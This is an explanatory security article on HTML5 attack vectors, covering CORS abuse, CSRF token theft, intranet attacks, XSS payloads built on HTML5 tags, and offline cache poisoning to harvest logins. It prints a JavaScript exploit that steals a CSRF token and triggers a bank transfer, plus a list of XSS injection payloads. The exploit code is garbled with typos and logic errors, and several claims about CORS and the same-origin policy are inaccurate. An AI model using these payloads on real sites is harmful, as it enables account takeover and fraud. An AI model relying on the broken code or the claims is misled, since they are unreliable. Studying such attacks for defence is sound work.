HTML5 Attacks – Common/Uncommon Attack Vectors

HTML5 has been already known for several years. It is one of the key technologies in the Internet. Most websites, transmitting video, slowly give up Adobe Flash technology and switches to HTML5. The fact is that HTML5 is still being developed, and yet it is already used by most websites, mobile applications and IoT. 

All the latest versions of browsers already offer full support for HTML5, and thus created all the time new improvements to the language itself. All these functions are designed in such a way as to facilitate the handling of multimedia and graphical content without having to use any third-party plug-ins or API. The purpose of this article is to introduce to the few attacks on HTML5 and demonstrate how a hacker can quickly take control of your browser.

CORS (Cross Origin Resource Sharing) Attacks

HTML5 must meet the growing needs of developers who want to create high-quality site. At the same time HTML5 has to get rid of some restrictions which were introduced earlier by SOP (Same Origin Policy). Same Origin Policy allowed scripts that come from one place to communicate with each other and benefit from their common methods, but made it impossible to access scripts from different locations. 

Now, to meet all the demands of developers, HTML5 has to break all the restrictions. For example, now Ajax requests can come from different domains and be carried out in various domains. SOP had a limit, consisting in the fact that both the website and scripts on the executed had come from the same domain. Now, without the SOP, a malicious Web page can load any information from any domain using the credentials of the victim and sending this data between multiple domains.

What does it mean? So long as the Website, let's call it Website A, can exchange data with another website, Website B, Website B can read all the data from the site Website A. This was possible by creating an exploit, using HTTP tunnel and a simple tool called Shell of the Future. The tool is based on the simple principle that if a party has an XSS vulnerability and JavaScript code can be executed, than innocent user can by clicking on infected link perform so called Cross Origin Requests. If the tool is used in the correct manner, the attacker can view the sessions of its victims and direct requests to the server, pretending to be the victim. Shell of the Future is a subject for a different article and will not be discussed here.

The fact is that you can takeover a session of any user using XSS vulnerability. This is possible only thanks to the COR support of HTML5 and it allows some tunneled connections. 
But my site is secure I am using CSRF tokens …

HTML5 allows to steal CSRF tokens. For example, if the token goes in the URL, or the GET request, you can safely steal CSRF tokens, and this is consistent with the definition of CORS. An attacker could freely use CSRF token and the user will not even notice. To carry out this attack, attribute "withCredentials" has to be set to true and Access-Control-Allow-Origin to '*'. Let's see how it can be used.

Suppose that your website has CSRF protection, and the token is sent GET request. Now the attacker sends a link to the user together with a valid CSRF token and a link to controlled site. The attacker can now be mediated by the Ajax request in the communication between a bank customer and the bank. Below exploit code that could be used:

<script>
function exploit()
{
  var xmlhttp;
  if(window.XMLHttpRequest)
  {
    xmlhttp=new XMLHttpRequest();
  }
else
{
  xlmlhttp=new ActiveXObject(“Microsof.XMLHTTP”);
}
xmlhttp.open(“GET”,”http://localhost/myBank/transfer.hmlt”,false);
xmlhttp.send();
if(xmlhttp.status=200)
{
  var str=xmlhttp.responseText;
  var n=str.search(“csrfToken”);
  var final=str.substring(n+18,n+28);
  var url = “http://loclhost/myBank/TransferFund.html?datum1%2F=06-06-2013&amp;Account=1234&amo;csrfToken=” + escape(final);
xmlhttp.open(“GET”, url, true);
xmlhttp.send();
}

</script>
</head>
<body onload=”exploit();”>
</body>



Getting inside Intranet

Many companies have internal sites, which are used for employees. They are usually Intranet applications and are not available on the Web. Because it is a lot of them and they are used by employees in their daily work, they must work together. Unfortunately, most developers sets the header Access-Control-Allow-Origin: * and allows to carry out the CORS attack. It can be really well used by the attacker, who probably will use social engineering and compel employees to click on a suspicious link, and then in a very easy way to attack the internal enterprise applications. Here is an example of such an attack.

1) The internal corporate employee logs on to the intranet.
2) The server returns a response containing the Access-Control-Allow-Origin: * because it communicates well with other applications in the company.
3) The employee receives an e-mail that contains a link to the page with great graphics SVG. Each of these images contain hidden JavaScript code that will run when it is displayed. This is discussed in a separate article.
4) Code JavaScript XMLHttpRequest send silently in the background and waits for a response. This can be done because the appropriate headers are set to be (X-XSS-Protection: 1; Access-Control-Allow-Origin: *).
5) JavaScript analyzes the answers and sends back to the attacker's servers. Virus checking and other control measures have been omitted. We will show how to use this feature soon.
6) We are in the company and act as an employee, and no one will know what happened.

The new vectors of attack XSS in HTML5

Developers in every company will develop their own filters to block XSS attacks on websites. Most of these models on a few simple examples of OWASP. However, HTML5 introduced a tremendous amount of tags to enable support for audio and video. Below are some possible attack vectors that are used virtually every day.


<video> <source onerror=”javascript:alert(1)”>
<vide onerror=”javascript:alert(1)”><source>
<audio onerror=”javascript:alert(1)”><source>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<button form=test onformchange=alert(2)>X
<form><button formaction=”javascript:alert(1)”>

Darknet Technique: Offline Web Application Cache Poisoning

There is a certain functionality of most web browsers, called an offline cache processing. The functionality has been implemented by most browsers. The functionality is based on the fact that the application can process the contents of the page, even when you use it offline. The main problem of this feature is that an attack "cache poisoning" can be performed using this feature. If an attacker manages to replace at least one file of the site, it has full control over the user account. This can be done eg. using SVG file. You know what is the difference between HTML4 and HTML5? HTML5 essentially does not allow to cache all the files, but it allows you to cache specific files. Using this function, the attacker can steal login details belonging to any user. The following is a sample scenario of attack.

1) The user connects to an unsecured WiFi network at the mall and browse to a page, for example Facebook.
2) A hacker responds to this request by displaying the iframe Facebook login page, the user's browser automatically sends a request to the Facebook page. Login page to Facebook can be replaced by any application, including banking application.
3) Because the network is controlled by a hacker, the user will see a normal login page, but inside will be located additional JavaScript code. In addition, the page contains the appropriate tags, which require her to cache the user's system, so the page is already cached in the browser cache.
4) The sacrifice of a few hours, days, etc etc, it connects to the selected web page, in this case Facebook, but Facebook login page was buffered in a user's system. A page exactly substituted by hackers was buffered in a user's system.
5) The sacrifice is part of the link, and the browser loads a fake site from the cache.
6) The victim introduces credentials that are transported to the attacker. By the way, an attacker can mediate communication between Facebook and the innocent victim.

So through cache poisoning, the attacker can steal user's credentials. 


Summary

Most of these tricks usually are not used or tested against, making it easier for Cybercriminals.

Please make sure you test your website for this problems.


References:

http://resources.infosecinstitute.com/demystifying-html-5-attacks/


http://silenceonthewire.pl/index.php/ataki-na-html5-wprowadzenie/
